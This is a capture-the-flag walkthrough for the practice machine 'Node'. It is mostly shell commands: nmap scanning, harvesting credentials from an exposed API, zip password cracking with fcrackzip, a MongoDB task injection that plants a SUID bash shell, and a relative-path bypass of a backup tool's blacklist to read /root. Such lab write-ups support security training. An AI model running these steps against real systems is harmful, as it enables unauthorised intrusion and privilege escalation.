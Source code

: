 ## Node

#### Scan to discover open ports
```sh
nmap -sS -P0 -n -p- -T5 -oA nmap-tcp-allports-fast 10.10.10.58
```

#### Enumerate the discovered ports
```sh
nmap -sV -n -sC -p22,3000 -oA nmap-tcp-foundports 10.10.10.58
```

Gobuster/dirbuster doesn't work as every response returns 200.

So fire up burp to intercept a request to `http://10.10.10.58:3000/`. Notice that there are 2 responses; one for `/` as expected but then another one for `/<uuid>`.

Navigate to the `/<uuid>` link from a browser through Burp. Go to the Target -> Site Map tabs and expand the 10.10.10.58 host. Notice the `/api/users/latest` file and you should see json content. If not then you can run:
```sh
$ curl -s http://10.10.10.58:3000/api/users | json_pp
```


Naviagate to the login page in a web browser at `http://10.10.10.58:3000/login`, enter the admin credentials discovered in `http://10.10.10.58:3000/api/users` and click the `Login` button.
Once you'ev logged in, click the `Download Backup` button that is presented to you and save the file as `myplace.backup.zip`.

#### Decode the content to reveal a zip file
```sh
$ base64 --decode myplace.backup > myplace.backup.zip
```

#### Crack the zip file
```sh
$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u myplace.backup.zip
```

#### Unzip the backup
```sh
$ unzip myplace.backup.zip
```

#### Review the app.js file
```sh
$ vim -R var/www/myspace/app.js
```

Notice the `const url` towards the top which contains a mongodb connection string including a username and password.

#### SSH into the Node box using the mongodb creds we just found
```sh
$ ssh 10.10.10.58 -l mark
```

#### Insert task into mongo-based task executor
```sh
# Connect to local mongo scheduler db
$ mongo -p -u mark scheduler

# Insert a new task to copy bash and SUID it
> db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/lsec; /bin/chmod u+s /tmp/lsec; chmod g+s /tmp/lsec"});

# See if task is still pending
> db.tasks.find()

# Exit mongodb
> Ctrl-D
```

#### Execute the SUID bash shell using the -p flag
```sh
$ /tmp/lsec -p
```

#### Find SUID programs now that we're Tom
```sh
$ find / -perm -4000 2>/dev/null
```

#### Investigate the `/usr/local/bin/backup` found in output above
```sh
$ ls -ltr /usr/local/bin/backup

$ file /usr/local/bin/backup

$ /usr/local/bin/backup
```
The above commands don't reveal much and guessing at the usage of the command results in no output.

#### Search for references to the backup binary in app.js
```
node$ grep backup /var/www/myplace
```
The last line above reveals the usage of the backup command, which references a `backup_key` which can be found the first line of output above. What if we try to backup the /root dir?
```
# Run the backup tool against /root
node$ /usr/local/bin/backup -q <backup_key> /root

# Copy and paste the output into your attack machine
kali$ vim node-slash-root.b64

# Base64 decode it into a zip file
kali$ base64 --decode node-slash-root.b64 > node-slash-root.zip

# Unzip using 7z and provide password gleaned from fcrackzip above
kali$ 7z x node-slash-root.zip

# We can see there is a root.txt, so let's look at it
kali$ cat root.txt
```
Instead of a root flag we see ASCII art of a troll face. :( So it seems that /root is blacklisted. What if we cd to the `/` directory and try backing up `root` as a relative path?
```
# Move to the / directory
cd /

# Run the backup tool against root
node$ /usr/local/bin/backup -q <backup_key> root

# Copy and paste the output into your attack machine
kali$ vim node-relative-root.b64

# Base64 decode it into a zip file
kali$ base64 --decode node-relative-root.b64 > node-relative-root.zip

# Unzip using 7z and provide password gleaned from fcrackzip above
kali$ 7z x node-relative-root.zip

# We can see there is a root.txt, so let's look at it
kali$ cat root.txt
```
And now we can see the root flag! :)
